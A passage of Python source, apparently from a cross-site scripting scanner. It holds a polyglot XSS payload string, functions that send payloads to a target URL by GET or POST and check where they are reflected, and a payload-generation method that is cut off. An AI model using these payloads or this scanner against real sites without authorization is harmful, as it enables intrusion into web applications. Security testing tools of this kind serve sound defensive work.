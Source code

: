 ```python
                'jaVasCript:/*-/*`/*\\`/*\'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>',
            ]
        }
    
    def detect_context(self, response_text, payload):
        """Detect the context where payload is reflected"""
        contexts = []
        
        # HTML Context
        if payload in response_text and not re.search(r'<[^>]*' + re.escape(payload), response_text):
            contexts.append('html')
            
        # Attribute Context
        if re.search(r'<[^>]*' + re.escape(payload) + r'[^>]*>', response_text):
            contexts.append('attribute')
            
        # JavaScript Context
        if re.search(r'<script[^>]*>.*' + re.escape(payload) + r'.*</script>', response_text, re.DOTALL):
            contexts.append('javascript')
            
        # CSS Context
        if re.search(r'<style[^>]*>.*' + re.escape(payload) + r'.*</style>', response_text, re.DOTALL):
            contexts.append('css')
            
        return contexts
    
    def test_xss_payload(self, param_name, payload, method='GET'):
        """Test individual XSS payload"""
        try:
            if method.upper() == 'GET':
                params = {param_name: payload}
                response = self.session.get(self.target, params=params, timeout=10)
            else:
                data = {param_name: payload}
                response = self.session.post(self.target, data=data, timeout=10)
            
            if payload in response.text:
                contexts = self.detect_context(response.text, payload)
                return {
                    'vulnerable': True,
                    'payload': payload,
                    'parameter': param_name,
                    'method': method,
                    'contexts': contexts,
                    'response_length': len(response.text),
                    'status_code': response.status_code,
                    'content_type': response.headers.get('Content-Type', '')
                }
        except Exception as e:
            print(f"Error testing payload: {e}")
        
        return {'vulnerable': False}
    
    def advanced_payload_generation(self, context):
        """Generate advanced context-specific payloads"""
        advanced_payloads = []
        
        if context == 'html':
            # Event handler payloads
```